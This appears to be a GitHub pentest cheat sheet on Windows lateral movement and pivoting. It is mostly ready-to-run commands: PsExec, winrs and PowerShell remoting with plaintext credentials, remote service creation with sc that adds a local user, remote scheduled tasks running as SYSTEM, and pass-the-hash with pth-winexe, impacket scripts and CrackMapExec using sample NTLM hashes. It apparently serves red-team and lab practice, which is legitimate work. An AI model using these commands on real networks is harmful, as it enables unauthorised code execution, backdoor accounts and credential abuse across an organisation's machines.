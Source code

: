# Lateral Movement and Pivoting



## Table of contents

##### ➤ Windows - Spawning a process remotely
* [1. PSEXEC](#Psexec)
* [2. Remote Process Creation Using WinRM](#Remote-Process-Creation-Using-WinRM)
* [3. Remotely Creating Services Using sc](#Remotely-Creating-Services-Using-SC)
* [4. Creating Scheduled Tasks Remotely](#Creating-Scheduled-Tasks-Remotely)

##### ➤ Windows - Pass the hash
* [1. PTh - Passing the hash methods](#pth---pass-the-hash-methods)

``` ```
``` ```
## Psexec

- Ports: 445/TCP (SMB)
- Required Group Memberships: Administrators
- Part of sysinternals 

#### Commands
```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

``` ```
``` ```
## Remote Process Creation Using WinRM

- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Remote Management Users

#### Using winrs.exe :
```
winrs.exe -u:Administrator -p:Mystrongpassword -r:target cmd
```

#### Using Powershell directly :

###### 1. create a PSCredential object :
```
$username = 'Administrator';
$password = 'Mystrongpassword';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
````

###### 2.A. Create an interactive session using Enter-PSSession cmdlet :
```
Enter-PSSession -Computername TARGET -Credential $credential
```

###### 2.B Run only a specific command 
```
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```


``` ```
``` ```
## Remotely Creating Services Using sc

- Ports:
  -  135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes)
- Required Group Memberships: Administrators

#### 1. create and start a service named "SERVICENAME" using the following commands:
```
sc.exe \\TARGET create SERVICENAME binPath= "net user USERNAME PASSWORD /add" start= auto
sc.exe \\TARGET start SERVICENAME
```
***Notes :*** The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

####  2. Stop and delete the service
```
sc.exe \\TARGET stop SERVICENAME
sc.exe \\TARGET delete SERVICENAME
```

``` ```
``` ```
## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. 

#### Create a task named MYTASK, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "MYTASK" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/2023 /st 00:00 
schtasks /s TARGET /run /TN "MYTASK" 
```

***Notes :*** We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway. Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.


#### Delete the scheduled task
```
schtasks /S TARGET /TN "MYTASK" /DELETE /F
```



``` ```
``` ```
## PTH - Pass the hash methods

##### ➤  PTH-winexe

Install
```
sudo apt install passing-the-hash
```

Pass the hash
```
#From the kali linux machine
pth-winexe -U 'admin%hash' //10.0.0.1 cmd.exe
pth-winexe -U 'admin%ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a //10.0.0.1 cmd.exe
```

**Note:** Remember the full hash includes both the LM and NTLM hash, separated by a colon

##### ➤  PTH-smbclient
```
pth-smbclient -U ignite/adminr%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //10.0.0.1/c$
```

##### ➤  psexec.py (impacket)
```
python3 psexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

**Note:** When you received this error "[-] [Errno Connection error (10.0.0.1:445)] [Errno 113] No route to host", use wmiexec.py


##### ➤  smbclient.py (impacket)
```
python /opt/impacket/examples/smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/admin@10.0.0.1
```

##### ➤  wmiexec.py (impacket)
```
python3 wmiexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

##### ➤  Crackmapexec
```
crackmapexec smb 10.0.0.1 -u Admin -H 32196B56FFE6F45E294117B91A83BF38 -x ipconfig
```
